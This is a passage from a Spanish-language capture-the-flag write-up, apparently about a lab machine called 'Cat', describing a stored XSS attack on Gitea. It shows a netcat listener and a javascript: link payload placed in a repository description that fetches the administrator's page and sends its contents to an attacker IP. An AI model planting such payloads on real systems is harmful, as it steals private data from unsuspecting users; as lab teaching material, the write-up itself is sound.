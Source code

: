 Para poder exploitar esta vulnerabilidad necesitamos estar autenticados. Para ello intentaremos utilizar las credenciales de `axel`.

![gitea login](../../img/Cat/gitea-login.png)

Ahora nos ponemos en escucha con netcat por el puerto 80 para recibir las solicitudes del xss

```
nc -lnvp 80
```

y enviamos un payload para que al hacer click en la descripción nos envíe el contenido de `/administrator`. De esta forma podremos ver los repositorios del usuario `Administrador` (si es que este hace click en la descripción).

El payload que introduciremos en la descripción será el siguiente.

```html
<a href="javascript:fetch('http://localhost:3000/administrator').then(res => res.text().then(text => fetch('http://10.10.14.191/?body=' + encodeURIComponent(text))))">XSS test</a>
```

Creamos el repositorio.

![repo](../../img/Cat/repo.png)
